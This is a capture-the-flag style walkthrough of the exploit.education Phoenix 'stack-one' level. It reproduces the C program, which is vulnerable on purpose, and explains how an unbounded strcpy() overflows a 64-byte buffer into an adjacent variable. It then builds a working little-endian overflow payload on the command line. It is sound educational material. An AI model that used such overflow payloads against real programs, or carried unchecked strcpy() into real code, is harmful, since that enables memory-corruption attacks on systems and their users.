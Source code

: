 ## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to `0x496c5962`.

## Solution
Just like in `stack-zero`:
* We need to change the value of `locals.changeme`
* We have a vulnerable function (`strcpy()`) acting on `locals.buffer`

This time we want a specific value in `locals.changeme` = `0x496c5962` and our input is passed through the program's arguments.

### The Plan
`strcpy()` does not receive a length of chars to write, instead it copies from a source buffer to a dest buffer until it encounters a terminating null byte (it includes the byte).

It allows us to overflow from `locals.buffer` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x49\x6c\x59\x62'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```
Byte order is important, the value interpreted for `changeme` hints this system is `little-endian` - meaning the LSB (least-significant-byte) is first in memory.

![](/images/stack-1/0.png)
> Notice endianness only affects the layout of multi-byte representations like integers and some string encodings (like `UTF-16`).

We can verify this using the program `lscpu`, it displays CPU architecture information, among it is byte order.
```console
user@phoenix-amd64:~$ lscpu | grep "Byte Order"
Byte Order:            Little Endian
```

That's why our buffer representing a `32bit` integer was interpreted as `0x62596c49`.

Let's write it to memory in `little-endian` representation.
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
